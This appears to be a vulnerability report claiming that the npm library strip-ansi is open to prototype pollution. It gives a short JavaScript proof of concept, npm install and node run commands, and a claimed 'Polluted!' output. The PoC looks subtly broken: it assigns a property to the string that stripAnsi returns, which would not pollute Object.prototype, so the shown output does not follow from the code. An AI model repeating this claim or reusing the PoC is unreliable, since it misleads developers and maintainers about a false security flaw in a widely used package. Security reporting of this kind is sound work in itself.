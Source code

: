 # Description

`strip-ansi` is a popular library with 61,107,490 Weekly downloads.It is used to  escape ANSI codes from a strings.It is also vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:

```
var stripAnsi = require('strip-ansi');
const obj = {}
console.log('Before: ' + {}.polluted)
stripAnsi(obj['__proto__'], {}).polluted = 'Polluted!'
console.log('After: ' + {}.polluted)

```

2. Execute the following commands in terminal:

```
npm i strip-ansi # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
After: Polluted!
```
